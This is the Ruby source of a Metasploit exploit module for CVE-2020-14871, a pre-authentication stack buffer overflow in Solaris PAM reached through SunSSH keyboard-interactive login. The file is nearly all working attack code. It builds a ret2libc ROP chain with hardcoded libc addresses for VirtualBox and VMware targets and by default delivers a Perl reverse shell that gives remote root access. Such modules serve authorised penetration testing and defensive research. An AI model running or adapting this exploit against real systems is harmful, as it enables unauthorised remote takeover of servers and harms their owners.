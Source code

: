 EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote

      Rank = NormalRanking

      prepend Msf::Exploit::Remote::AutoCheck
      include Msf::Exploit::Remote::CheckModule
      include Msf::Exploit::Remote::SSH

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'Oracle Solaris SunSSH PAM parse_user_name() Buffer Overflow',
            'Description' => %q{
              This module exploits a stack-based buffer overflow in the Solaris PAM
              library's username parsing code, as used by the SunSSH daemon when the
              keyboard-interactive authentication method is specified.

              Tested against SunSSH 1.1.5 on Solaris 10u11 1/13 (x86) in VirtualBox,
              VMware Fusion, and VMware Player. Bare metal untested. Your addresses
              may vary.
            },
            'Author' => [
              'Jacob Thompson', # Analysis
              'Aaron Carreras', # Analysis
              'Jeffrey Martin', # Testing
              'Hacker Fantastic', # PoC
              'wvu' # Exploit
            ],
            'References' => [
              ['CVE', '2020-14871'],
              ['URL', 'https://www.oracle.com/security-alerts/cpuoct2020.html'],
              ['URL', 'https://www.fireeye.com/blog/threat-research/2020/11/critical-buffer-overflow-vulnerability-in-solaris-can-allow-remote-takeover.html'],
              ['URL', 'https://hacker.house/lab/cve-2020-18471/'],
              ['URL', 'https://twitter.com/hackerfantastic/status/1323431512822435841']
            ],
            'DisclosureDate' => '2020-10-20', # Vendor advisory
            'License' => MSF_LICENSE,
            'Platform' => 'unix',
            'Arch' => ARCH_CMD,
            'Privileged' => true,
            'Payload' => {
              # https://github.com/illumos/illumos-gate/blob/edd669a7ce20a2f7406e8f00489c426c0690f1bd/usr/src/lib/libpam/pam_framework.c#L615-L617
              'BadChars' => "\x00\x09\x20",
              'Encoder' => 'cmd/perl'
            },
            'Targets' => [
              [
                'SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware',
                {
                  'Ident' => 'SSH-2.0-Sun_SSH_1.1.5',
                  'LibcBase' => 0xfeb90000
                }
              ],
              [
                'SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox',
                {
                  'Ident' => 'SSH-2.0-Sun_SSH_1.1.5',
                  'LibcBase' => 0xfeb80000
                }
              ]
            ],
            'DefaultTarget' => 0,
            'DefaultOptions' => {
              'PAYLOAD' => 'cmd/unix/reverse_perl',
              'SSH_TIMEOUT' => 2,
              'CheckModule' => 'auxiliary/scanner/ssh/ssh_version'
            },
            'Notes' => {
              'Stability' => [CRASH_SERVICE_RESTARTS],
              'Reliability' => [REPEATABLE_SESSION],
              'SideEffects' => [ACCOUNT_LOCKOUTS, IOC_IN_LOGS]
            }
          )
        )
      end

      def check
        # Run auxiliary/scanner/ssh/ssh_version
        checkcode = super

        return checkcode unless checkcode == CheckCode::Detected

        unless target['Ident'] == checkcode.details[:ident]
          return CheckCode::Safe("#{target.name} is an incompatible target.")
        end

        CheckCode::Appears("#{target.name} is a compatible target.")
      end

      def exploit
        print_status("Exploiting #{target.name}")

        ssh_client_opts = ssh_client_defaults.merge(
          port: rport,
          auth_methods: ['keyboard-interactive'],
          password: ret2libc, # HACK: This is really the username prompt on Solaris
          timeout: datastore['SSH_TIMEOUT']
        )

        ssh_client_opts.merge!(verbose: :debug) if datastore['SSH_DEBUG']

        print_status("Yeeting #{datastore['PAYLOAD']} at #{peer}")

        # Empty initial username
        Net::SSH.start(rhost, '', ssh_client_opts)
      rescue Net::SSH::AuthenticationFailed
        print_error(CheckCode::Safe.message)
      rescue Net::SSH::Disconnect
        print_warning('Disconnected, target selection may be incorrect!')
      rescue Net::SSH::ConnectionTimeout
        # Do nothing on success
      end

      # XXX: No ASLR, but libc base changes...
      def ret2libc
        buf = rand_text(516)
        buf << p32(target['LibcBase'] + 0x23904) # add esp, 8; ret
        buf << rand_text(4)
        buf << p32(0x08040101) # ecx
        buf << p32(0x0805ba07) # pop ecx; pop edx; pop ebp; ret
        buf << p32(target['LibcBase'] + 0x256d0) # exit(3)
        buf << p32(target['LibcBase'] + 0x91edf) # system(3)
        buf << rand_text(4)
        buf << p32(target['LibcBase'] + 0xae3f1) # push esp; and al, 0; push ecx; push edx; ret
        buf << payload.encoded
      end

      def p32(addr)
        [addr].pack('V')
      end

    end